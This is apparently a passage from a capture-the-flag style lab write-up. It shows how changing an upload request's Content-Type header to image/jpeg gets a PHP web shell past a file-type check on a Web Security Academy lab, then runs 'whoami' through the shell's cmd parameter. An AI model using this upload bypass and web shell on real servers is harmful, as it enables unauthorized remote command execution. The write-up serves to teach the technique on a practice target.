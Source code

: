 The application detected that it is a php file and correctly entered "Content-Type":

![response](https://www.dropbox.com/scl/fi/nvoun1x6bfaaxlkhtuu5e/pb-PKHqNSh5tU.png?rlkey=m619xu6guarjhi5u6lo4ypk18&raw=1)

![request](https://www.dropbox.com/scl/fi/c7oo7tyjaybcmvkxabukq/pb-h4yAAJtmcw.png?rlkey=r0jeifit7vgwtvubl4iuuu98x&raw=1)

The question is whether we can modify the "Content-Type" and whether it will affect the security.

We have information in the response that image/jpeg and image/png files are allowed.

Let's replace the "Content-Type" in the request:

![request changed](https://www.dropbox.com/scl/fi/xxaycrfuahpu0vz3g7786/pb-xHhmbZGfl7.png?rlkey=c3v4m8b6kjhlt2e018h0b5vgq&raw=1)

It turns out that this time after sending the request we receive a status code 200:

![200 status](https://www.dropbox.com/scl/fi/41xwjkq9ivy0eixrnnk2q/pb-AnkMR7sjLg.png?rlkey=1apoifg3gr2p4k25455nr5r0v&raw=1)

```
HTTP/2 200 OK
Date: Mon, 19 Feb 2024 18:06:05 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 133

The file avatars/webshell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

In the browser, let's go back. We can see that something tried to load:

![image](https://www.dropbox.com/scl/fi/hcl3jsugzc1ckta0gav5a/pb-z29e4RNxUX.png?rlkey=3okhnxiuqmp9gfq6l92kmcnq2&raw=1)

On the image, right-click and choose the option "Copy image address":

![image address](https://www.dropbox.com/scl/fi/lnniln0554xrlpqg200kj/pb-FS7mTgSJMc.png?rlkey=ydmckbjdq28sn009whzswvwil&raw=1)

In a new tab, paste the image address:

![image address copied](https://www.dropbox.com/scl/fi/k990net4wkcql2vmmbx9i/pb-PW304i2ujZ.png?rlkey=a6dpxk2nidjcfdyobpaqle483&raw=1)

The page loaded, but it's white:

![white page](https://www.dropbox.com/scl/fi/r4hi5veapo3xeh9n648vj/pb-Ot1OtLjo5P.png?rlkey=514iqbwq87llnuj9cpm5dfzjy&raw=1)

We still need to provide the CMD parameter:

```
web-security-academy.net/files/avatars/webshell.php?cmd=whoami
```

Click "**Enter**".

Now we see that we are "carlos":
